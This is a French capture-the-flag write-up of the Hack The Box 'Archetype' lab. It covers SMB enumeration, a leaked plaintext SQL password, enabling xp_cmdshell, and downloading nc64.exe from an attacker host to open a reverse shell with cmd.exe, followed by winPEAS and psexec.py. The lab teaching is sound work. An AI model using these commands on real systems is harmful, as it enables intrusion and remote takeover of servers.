 # Archetype Write-up

## Introduction

Bienvenue à TIER II ! Félicitations pour être arrivé jusqu'ici. À partir de maintenant, les machines deviennent un peu plus difficiles en termes d'étapes, d'utilisation des outils et de tentatives d'exploitation, car elles commencent à ressembler aux machines de la plateforme principale de HTB. En commençant par Archetype, qui est une machine Windows, vous aurez l'occasion d'exploiter une mauvaise configuration dans Microsoft SQL Server, d'essayer d'obtenir un shell inverse et de vous familiariser avec l'utilisation de l'outil Impacket pour attaquer d'autres services.

## Énumération

Réaliser un scan réseau pour détecter les ports ouverts est déjà connu comme une partie essentielle du processus d'énumération. Cela nous offre l'opportunité de mieux comprendre la surface d'attaque et de concevoir des attaques ciblées. Comme dans la plupart des cas, nous allons utiliser l'outil célèbre `nmap` :

- **Commande** : `nmap -sC -sV {TARGET_IP}`

Nous avons découvert que les ports SMB sont ouverts et qu'un Microsoft SQL Server 2017 est également en cours d'exécution sur le port 1433. Nous allons énumérer les services SMB avec l'outil `smbclient` :

- **Commande** : `smbclient -N -L \\{TARGET_IP}\`

    - `-N` : Pas de mot de passe.
    - `-L` : Cette option permet de voir quels services sont disponibles sur un serveur.

Nous avons trouvé quelques partages intéressants. Les partages `ADMIN$` et `C$` ne sont pas accessibles comme l'indique l'erreur "Access Denied", cependant, nous pouvons essayer d'accéder et d'énumérer le partage `backups` en utilisant la commande suivante :

- **Commande** : `smbclient -N \\{TARGET_IP}\backups`

Il y a un fichier nommé `prod.dtsConfig` qui semble être un fichier de configuration. Nous pouvons le télécharger sur notre machine locale en utilisant la commande `get` pour une inspection plus approfondie hors ligne.

- **Commande** : `get prod.dtsConfig`

En examinant le contenu de ce fichier de configuration, nous repérons en clair le mot de passe de l'utilisateur `sql_svc`, qui est `M3g4c0rp123`, pour l'hôte `ARCHETYPE`. Avec les informations d'identification fournies, nous avons juste besoin d'un moyen pour nous connecter et nous authentifier au serveur MSSQL. L'outil Impacket inclut un script Python précieux appelé `mssqlclient.py` qui offre cette fonctionnalité.

### Impacket

Impacket est une collection de classes Python pour travailler avec divers protocoles réseau. Il se concentre sur la fourniture d'un accès programmatique de bas niveau aux paquets réseau et, pour certains protocoles (par exemple, SMB1-3 et MSRPC), sur l'implémentation du protocole lui-même. Les paquets peuvent être construits à partir de zéro, ainsi que parsés à partir de données brutes. L'API orientée objet simplifie le travail avec des hiérarchies complexes de protocoles. La bibliothèque fournit également une série d'outils en tant qu'exemples de ce qui peut être réalisé dans ce contexte.

### Installation d'Impacket

- **Commande** : `git clone https://github.com/SecureAuthCorp/impacket.git`
- **Commande** : `cd impacket`
- **Commande** : `pip3 install .`
- **Commande** : `sudo python3 setup.py install` (si nécessaire)
- **Commande** : `pip3 install -r requirements.txt` (si des modules manquent)
- **Commande** : `cd examples`
- **Commande** : `python3 mssqlclient.py -h`

### `mssqlclient.py`

`mssqlclient.py` est un script de la suite d'outils Impacket qui permet de se connecter à une base de données Microsoft SQL Server et d'exécuter des commandes SQL. Il prend en charge l'authentification Windows et SQL Server, et peut être utilisé pour interagir avec le serveur SQL pour des tâches d'administration ou d'exploitation.

### Connexion au serveur MSSQL

Après avoir compris les options fournies, nous pouvons essayer de nous connecter au serveur MSSQL en utilisant la commande suivante avec les informations d'identification découvertes précédemment :

- **Commande** : `python3 mssqlclient.py ARCHETYPE/sql_svc@{TARGET_IP} -windows-auth`

Nous nous sommes authentifiés avec succès au serveur Microsoft SQL Server !

## Obtention d'un accès initial

Après notre connexion réussie, il est conseillé de vérifier l'option d'aide de notre shell SQL pour comprendre les fonctionnalités disponibles.

Pour vérifier si `xp_cmdshell` est activé, nous pouvons utiliser la commande suivante :

- **Commande** : `EXEC xp_cmdshell 'net user';`

Si `xp_cmdshell` n'est pas activé, nous devons l'activer avec les commandes suivantes :

- **Commande** : `EXEC sp_configure 'show advanced options', 1;`
- **Commande** : `RECONFIGURE;`
- **Commande** : `EXEC sp_configure 'xp_cmdshell', 1;`
- **Commande** : `RECONFIGURE;`

Maintenant, nous sommes capables d'exécuter des commandes système. Nous allons télécharger l'exécutable `nc64.exe` sur la machine cible et établir un shell interactif via Netcat.

### `nc64.exe`

`nc64.exe` est la version 64 bits de Netcat, un outil réseau polyvalent utilisé pour lire et écrire des données sur des connexions réseau en utilisant les protocoles TCP ou UDP. Il peut être utilisé pour ouvrir des ports, établir des connexions, transférer des fichiers, effectuer des scans de ports, et plus encore. Dans ce contexte, nous l'utilisons pour obtenir un shell inverse.

### Téléchargement et exécution de Netcat

Sur notre machine locale, démarrez un serveur HTTP simple et un écouteur Netcat :

- **Commande** : `sudo python3 -m http.server 80`
- **Commande** : `sudo nc -lvnp 443`

Sur la machine cible, téléchargez `nc64.exe` :

- **Commande** : `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.9/nc64.exe -outfile nc64.exe"`

Puis, établissez la connexion inverse :

- **Commande** : `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.9 443"`

## Escalade de privilèges

Pour l'escalade de privilèges, nous allons utiliser un outil appelé `winPEAS`, qui peut automatiser une grande partie du processus d'énumération sur le système cible.

### Téléchargement et exécution de winPEAS

Téléchargez `winPEAS` sur la machine cible en utilisant la commande suivante :

- **Commande** : `wget http://10.10.14.9/winPEASx64.exe -outfile winPEASx64.exe`

Ensuite, exécutez `winPEAS` :

- **Commande** : `PS C:\Users\sql_svc\Downloads> .\winPEASx64.exe`

En examinant la sortie, nous pouvons trouver des informations critiques, telles que `SeImpersonatePrivilege`, qui est vulnérable à l'exploitation `juicy potato`.

### `psexec.py`

`psexec.py` est un autre script de la suite Impacket qui permet d'exécuter des commandes à distance sur des machines Windows en utilisant les protocoles SMB et DCE/RPC. Inspiré de `PsExec` de Sysinternals, il est souvent utilisé pour obtenir un shell distant sur des systèmes cibles, facilitant ainsi les opérations de post-exploitation.

Si nous trouvons les informations d'identification de l'administrateur, nous pouvons utiliser `psexec.py` de la suite Impacket pour obtenir un shell en tant qu'administrateur :

- **Commande** : `python3 psexec.py administrator@{TARGET_IP}`

Nous avons réussi à obtenir les deux drapeaux, félicitations !

